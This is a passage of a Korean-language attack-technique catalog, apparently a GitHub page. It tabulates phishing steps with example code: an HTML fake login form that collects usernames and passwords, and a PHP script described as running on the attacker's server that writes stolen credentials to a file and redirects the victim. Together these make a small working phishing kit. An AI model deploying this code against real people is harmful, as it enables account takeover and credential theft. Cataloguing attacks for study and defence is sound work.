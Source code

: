 ### Exploitation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Credential Harvesting (Phishing)</td>
      <td>
        <pre><code>&lt;!-- fake_login.html --&gt;
&lt;body&gt;
  &lt;h2&gt;Login Page-Fake&lt;/h2&gt;&lt;br&gt;
  &lt;label&gt;&lt;b&gt;User Name&lt;/b&gt;&lt;/label&gt;
  &lt;input type="text" name="Uname" id="Uname" placeholder="Username"&gt;
  &lt;br&gt;&lt;br&gt;
  &lt;label&gt;&lt;b&gt;Password&lt;/b&gt;&lt;/label&gt;
  &lt;input type="Password" name="Pass" id="Pass" placeholder="Password"&gt;
  &lt;br&gt;&lt;br&gt;
  &lt;input type="button" name="log" id="log" value="Log In Here"&gt;
&lt;/body&gt;</code></pre>
      </td>
      <td>원본 사이트와 똑같이 제작된 가짜 로그인 페이지를 사용자에게 노출시켜, 신뢰된 사이트로 착각하게 만든 후 아이디, 비밀번호 등 민감한 자격 증명을 입력하도록 유도하여 탈취한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Exfiltration

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Data Exfiltration</td>
      <td>
        <pre><code>&lt;?php
// 공격자 서버의 스크립트 예시
$username = $_POST['Uname'];
$password = $_POST['Pass'];
file_put_contents('credentials.txt', "User: $username, Pass: $password\n", FILE_APPEND);
header('Location: http://original-site.com/login-error'); // 사용자를 다시 원래 사이트로 보냄
exit();
?&gt;</code></pre>
      </td>
      <td>피싱 페이지의 form 제출이나 비동기 통신(XHR, Beacon)을 통해, 사용자가 입력한 자격 증명을 공격자의 서버로 전송하여 저장하고, 이를 통해 계정 탈취 등 추가 공격을 준비한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>